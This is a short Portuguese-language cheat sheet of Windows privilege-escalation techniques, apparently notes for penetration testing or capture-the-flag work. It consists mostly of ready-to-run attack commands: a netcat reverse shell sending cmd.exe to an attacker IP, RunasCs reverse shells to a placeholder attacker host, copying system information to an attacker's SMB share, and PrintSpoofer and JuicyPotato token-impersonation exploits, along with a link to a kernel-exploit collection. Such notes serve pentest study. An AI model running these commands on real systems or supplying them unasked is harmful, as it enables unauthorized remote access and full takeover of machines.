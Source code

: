 ```
runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```
Existe um runas compilado que pode ser encontrado em:
https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

```
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> cmd
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> powershell
```

## Kernel exploitation

https://github.com/SecWiki/windows-kernel-exploits

    Winver 

```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

Pesquisas no google

## User Permissions (whoami /priv)

Teste basiquinho primeiro, porque mudei de ideia:

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
whoami /priv

SeImpersonate

PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```